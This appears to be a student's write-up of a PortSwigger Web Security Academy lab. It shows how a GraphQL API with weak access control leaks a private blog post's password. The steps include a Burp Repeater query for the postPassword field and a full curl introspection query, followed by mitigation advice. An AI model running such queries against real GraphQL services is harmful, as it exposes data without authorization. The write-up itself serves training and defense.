 # Accessing private GraphQL posts

## Lab URL
https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts

## Summary
The blog page for this lab contains a hidden blog post that has a secret password, Due to insufficient access controls on the `GraphQL API` , password can be fetched without proper authoization.

## Steps to Reproduce
1. On the main page, Click on any blog post, then intercept the request using burpsuite.
2. Skip through the requests until you find the `graphql` request, then send it to `Burp Repeater`.
3. Replace the body of the request by the following `GraphQL` query:
	```
	{
 	    "query": "query { getBlogPost(id: 3) {postPassword}}"
	}
	```
4. Click Send, and the response will include the secret password for the private post.

## Explanation
- This vulnerability arise when there is insufficent access control on a `GraphQL API` leads to unauthorized data exposure.
- This lab uses `GraphQL` to fetch blog content from the database.
- When the blog post is clicked, a `GraphQL` request is made in the background.
- By intercepting the `GraphQL` request, we can analyze and manipulate the query.

### Discovering the GraphQL Schema
-to discove the full structure of the `GraphQL`, run the following command in linux.
	<pre lang="markdown"> 
 	curl -X POST https://YOUR-LAB-ID.web-security-academy.net/graphql/v1 \ 
  	-H "Content-Type: application/json" \
   	-d '{"query":"query IntrospectionQuery { __schema { queryType { name } mutationType { name } types { ...FullType } directives { name description locations 	args { ...InputValue } } } } 		fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } deprecationReason } 	inputFields { ...InputValue 	} interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on 		__InputValue { name 		description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"}' ``` 
 	</pre>
 
### Visualizing the schema
- Go to [GraphQL Voyager](https://graphql-kit.com/graphql-voyager)
- Click `CHANGE SCHEME` -> `INTROSPECTION`.
- Paste the output from the curl command.
- Click `DISPLAY`, Then it will show a visual diagrame of the `GraphQL`.
- By this diagrame we can use graphql syntax to get the data we want.

## Recommendation
- Disable Introspection.
- Avoid returning fields like `password`, `securityKey` and so on.

## Screenshot
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/GraphQL/report_one/report_images/image_one.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/GraphQL/report_one/report_images/image_two.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/GraphQL/report_one/report_images/image_three.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/GraphQL/report_one/report_images/image_four.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/GraphQL/report_one/report_images/image_five.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/GraphQL/report_one/report_images/image_six.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/GraphQL/report_one/report_images/image_seven.png)
